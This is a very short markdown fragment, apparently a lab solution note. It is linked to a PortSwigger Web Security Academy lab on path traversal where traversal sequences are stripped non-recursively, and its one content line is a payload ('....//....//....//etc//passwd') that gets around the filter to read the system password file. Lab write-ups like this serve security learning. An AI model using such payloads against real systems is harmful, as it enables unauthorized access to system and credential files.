 # [File path traversal, traversal sequences stripped non-recursively](https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively)
```
....//....//....//etc//passwd
```
